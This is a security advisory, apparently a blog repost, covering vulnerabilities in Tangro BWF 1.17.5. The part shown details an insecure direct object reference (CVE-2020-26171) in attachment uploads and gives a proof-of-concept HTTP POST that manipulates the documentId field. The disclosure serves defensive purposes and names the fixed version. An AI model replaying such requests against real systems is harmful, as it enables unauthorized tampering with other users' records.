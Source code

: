 ```yaml
---
title: Tangro BWF Multiple Vulnerabilties
date: 2022-05-16 21:00:00 +0200
categories: [Security Advisories]
author: Dimitri Lesy
image: /posts/Tangro-BWF-Vulnerabilities/board.jpg
tags: [tangro, bwf, jwt, upload, idor, session, download]
description: Security Advisory
---
```


Together with Tobias Györfi, I tested the software Tangro BWF for a client in 2020.
This is a repost of the security advisories that were originally posted on the blog of my former employer *Thinking Objects GmbH*.

| Key | Value |
|---|---|
| Product | Tangro BWF |
| Vendor | tangro software components GmbH (Heidelberg, Germany) |
| Tested Version |  1.17.5 |
|Fixed Version | 1.18.1 |
| Mitigation | Update to version >= 1.18.1 |


## Adding Attachments to Arbitrary Workitem

| Key | Value |
|---|---|
| Vulnerability Type | Insecure Direct Object Reference |
| CVSSv3 Severity | AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N (Score 4.3) |
| CWE Reference | CWE-639 |
| CVE Reference | CVE-2020-26171 |

### Description

The "documentId" of attachment uploads to `/api/document/attachments/upload` can be manipulated. By doing this, users can add attachments to workitems that do not belong to them.

### Proof of Concept

When uploading an attachment to a document, the upload request specifies a document ID:

````
POST /api/document/attachments/upload HTTP/1.1
Host: <Tangro Host>
Content-Length: 410
X-AUTH-TOKEN: "<TOKEN>"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylayr7DbpEgYZ2lrs

------WebKitFormBoundarylayr7DbpEgYZ2lrs
Content-Disposition: form-data; name="documentId"

100000000000123456
------WebKitFormBoundarylayr7DbpEgYZ2lrs
Content-Disposition: form-data; name="file"; filename="file.txt"
Content-Type: text/plain

test
````